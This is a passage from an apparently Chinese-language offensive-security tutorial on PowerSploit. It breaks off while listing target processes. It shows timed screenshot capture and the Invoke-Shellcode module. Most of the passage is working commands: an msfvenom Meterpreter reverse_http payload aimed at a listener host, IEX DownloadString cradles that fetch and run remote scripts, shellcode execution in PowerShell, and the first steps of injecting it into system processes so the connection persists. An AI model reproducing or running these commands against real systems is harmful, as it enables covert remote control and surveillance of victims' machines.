 Get-TimedScreenshot

截屏并保存在指定文件夹下

```
PS C: > Get-TimedScreenshot -Path c:\windows\temp\ -Interval 10 -EndTime 12:00
```

CodeExecution 模块

这个模块就是用来执行各种代码的，注入 shellcode，注入 dll 等等。  

Invoke-Shellcode

1. 常用的是调用 Invoke-Shellcode 模块将 shellcode 注入到本地 powershell 当中执行。

首先生成 shellcode，CS 和 msf 的都可以

```
msfvenom -p windows/x64/meterpreter/reverse_http Lhost=192.168.10.1 LPort=8000  -f powershell
```

powershell 接收的 shellcode 格式是 0x00

```
[Byte[]] $buf = 0xfc,0x48,0x83,0xe4,0xf0,0xe8,0xcc,0x0,0x0,0x0,0x41,0x51,0x41,0x50,0x52,0x51,0x48,0x31,0xd2,0x56,0x65......
```

![](https://mmbiz.qpic.cn/mmbiz_png/zbTIZGJWWSPdYRemL2kHadlxTGA2jVYahtCXDSFlUvgo086ia13uBQbyghAnslboa8VdDFsPAuuqMeILicGoeUDg/640?wx_fmt=png)

然后用模块加载 shellcode，-Force 参数会默认执行载荷  

```
PS C:> IEX(New-Object net.webclient).Downloadstring('http://192.168.10.1/PowerSploit/CodeExecution/Invoke-Shellcode.ps1')
PS C:> get-help Invoke-Shellcode
PS C:> Invoke-ShellCode -Force -Shellcode 0xfc,0x84....
```

![](https://mmbiz.qpic.cn/mmbiz_png/zbTIZGJWWSPdYRemL2kHadlxTGA2jVYap0JmAKld5fVV2iaJiaWxc3jicNkr4U3LoUKQXbBgubrFgNp8xD9sEjcDA/640?wx_fmt=png)

或者将 shellcode 放在服务器上  

```
PS C:> IEX(New-Object net.webclient).Downloadstring("http://192.168.10.1/123.txt")
PS C:> Invole-ShellCode -Force -Shellcode $buf
```

![](https://mmbiz.qpic.cn/mmbiz_png/zbTIZGJWWSPdYRemL2kHadlxTGA2jVYaxPpBvEdvvnJ0lXEUvE7V7RpibAn9MAMzBHNNuFbzlbOz6MaNuquPJyA/640?wx_fmt=png)

都可以与 msf 建立连接，但是 ps 窗口关闭，连接就会断。  

2. 调用 Invoke-Shellcode 模块将 shellcode 注入到进程当中

因为进程关闭，连接也会停止，所以最好注入到系统进程中去

首先查看注入的进程 ，记录 PID 值

```
C:> taklist
PS C:> ps -Name lsm
```
